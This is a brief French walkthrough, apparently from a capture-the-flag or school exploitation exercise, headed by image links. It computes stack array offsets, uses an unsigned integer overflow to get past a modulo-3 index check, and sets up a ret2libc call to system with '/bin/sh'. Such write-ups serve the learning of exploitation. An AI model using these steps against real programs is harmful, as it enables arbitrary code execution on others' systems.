





on lance la progammme
on recupere les adresses du tableau
0xffffa910 // adresse qui qui point sur ladresse du tab
0xffffa934 // adresse du tableau
on les soustraits pour avoir le premier index et on trouve -9
0xffffa910 - 0xffffa934 <=> 4294945040 - 4294945076 = -36
tableau de int donc :
-36 / 4 = -9
on recupere l'eip et on calcul son index
eip = 0xffffaafc - 0xffffa934 = 0x1C8 = 456
tableau de int donc :
456 / 4 = 114
index de l'eip = 114
on fait un ret2libc
on recupere l'adresse de sytem
addr system : 0xf7e6aed0 qui en decimal donne : 4159090384
mais l'index de system sera 144 qui est proteger (%3) donc on vas overflow le int
uint_max / 4 + 114 = 4294967296 / 4 + 114 = 1073741938
on test si il est modulo 3
1073741938 % 3 = 1 donc non proteger
on lrecupere l'adresse de /bin/sh
addr de /bin/sh : 0xf7f897ec
on le convertit en decimal : 4160264172
index : 116 car 115 proteger
on lance la progammme avec nos infos
